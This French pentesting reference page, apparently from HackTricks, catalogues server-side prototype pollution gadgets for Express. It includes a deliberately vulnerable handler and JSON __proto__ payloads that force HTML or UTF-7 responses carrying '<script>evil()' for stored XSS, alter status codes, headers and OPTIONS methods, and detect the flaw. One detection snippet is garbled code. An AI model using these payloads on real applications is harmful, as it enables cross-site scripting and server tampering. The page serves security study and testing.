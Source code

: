 # Gadgets de Pollution de Prototype Express

{{#include ../../../banners/hacktricks-training.md}}

## Servir des réponses XSS

**Pour plus de détails** [**consultez la recherche originale**](https://portswigger.net/research/server-side-prototype-pollution)

### Changer le type de contenu JSON en HTML

Dans une application Express utilisant une **réponse de type contenu JSON** et réfléchissant un JSON :
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
Dans ces cas, le XSS n'est normalement pas possible avec un type de contenu JSON. Cependant, avec la pollution de prototype, nous pouvons **confondre Express pour servir une réponse HTML.** Cette vulnérabilité repose sur l'application utilisant **`res.send(obj)`** et utilisant le parseur de corps avec le type de contenu application/json.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
En **polluant** les propriétés **`body`** et **`_body`**, il est possible de faire en sorte qu'**Express serve le type de contenu HTML** et reflète la propriété `_body`, entraînant un XSS stocké.

### Rendre UTF7

Il est possible de faire en sorte qu'Express **rende le contenu UTF-7 avec** :
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Techniques de scan sûres

### Espaces JSON

Le PP suivant ajoutera un espace supplémentaire aux attributs à l'intérieur d'un JSON, ce qui ne perturbera pas la fonctionnalité :
```json
{ "__proto__": { "json spaces": " " } }
```
Alors, un JSON réfléchi ressemblera à :
```json
{"foo":  "bar"} -- Note the extra space
```
### En-têtes exposés

Le gadget PP suivant fera en sorte que le serveur renvoie l'en-tête HTTP : **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Il nécessite que le **module CORS soit installé**

### **Méthode OPTIONS**

Avec la charge utile suivante, il est possible de **cacher une méthode d'une réponse OPTIONS** :
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Statut**

Il est possible de changer le **code de statut retourné** en utilisant le payload PP suivant :
```json
{ "__proto__": { "status": 510 } }
```
### Erreur

Lorsque vous assignez à un prototype avec un primitif tel qu'une chaîne, cela produit une **opération no-op puisque le prototype doit être un objet**. Si vous essayez d'assigner un objet prototype à `Object.prototype` lui-même, cela **lancera une exception**. Nous pouvons utiliser ces deux comportements pour **détecter si la pollution du prototype a réussi** :
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Valeur réfléchie

Lorsque une application inclut un objet dans sa réponse, créer un attribut avec un **nom inhabituel en plus de `__proto__`** peut être révélateur. En particulier, si **seul l'attribut inhabituel est renvoyé** dans la réponse, cela pourrait indiquer la vulnérabilité de l'application :
```json
{ "unusualName": "value", "__proto__": "test" }
```
De plus, dans des scénarios où une bibliothèque comme Lodash est utilisée, définir une propriété à la fois via la pollution de prototype (PP) et directement à l'intérieur de l'objet offre une autre approche de diagnostic. Si une telle propriété est omise de la réponse, cela suggère que Lodash vérifie l'existence de la propriété dans l'objet cible avant de fusionner :
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Divers

### Autoriser les points

Il existe une option dans Express qui vous permet de **créer des objets à partir des paramètres de la chaîne de requête**.\
Vous pourriez certainement l'utiliser dans une **chaîne** de bogues pour exploiter une **vulnérabilité de pollution de prototype**.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` crée un objet dans Node.**

## Références

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
